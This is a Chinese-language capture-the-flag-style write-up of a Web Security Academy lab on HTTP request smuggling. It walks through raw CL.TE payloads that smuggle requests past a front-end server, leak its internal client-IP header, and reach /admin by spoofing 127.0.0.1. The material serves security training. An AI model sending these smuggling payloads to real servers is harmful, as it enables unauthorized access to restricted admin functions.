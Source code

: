 我一开始想的是用这种东西，前端服务器在`search=`这里拦截下来，然后对后面的`POST`请求添加头。

可万万没想到它不添加头了（因为只有`5c`过了）。猜测应该是一次发送只会添加一次头。

然后我就尝试了一下这个报文：

```http
POST / HTTP/1.1
Host: acd31f5e1ecfd83d80f9160800050068.web-security-academy.net
Content-Length: 110
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

a
search=aaa
0


GET /login HTTP/1.1
Host: acd31f5e1ecfd83d80f9160800050068.web-security-academy.net


```

发现它成功返回了`/login`页面。

然后尝试在`Host`这里加上`127.0.0.1`，去访问`/admin`，发现不行，后端不认。

我还是得去找到那个头是什么。

既然这个只添加一次，那么我就用上一个走私去包含下一个请求。

```http
POST / HTTP/1.1
Host: acd31f5e1ecfd83d80f9160800050068.web-security-academy.net
Content-Length: 121
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: acd31f5e1ecfd83d80f9160800050068.web-security-academy.net
Content-Length: 100

search=
```

发现返回了`X-wwQeBD-Ip: xxxx`，那我接下来直接就访问`/admin`。

```http
POST / HTTP/1.1
Host: acd31f5e1ecfd83d80f9160800050068.web-security-academy.net
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Transfer-Encoding: chunked

0


GET /admin HTTP/1.1
X-wwQeBD-Ip: 127.0.0.1


```
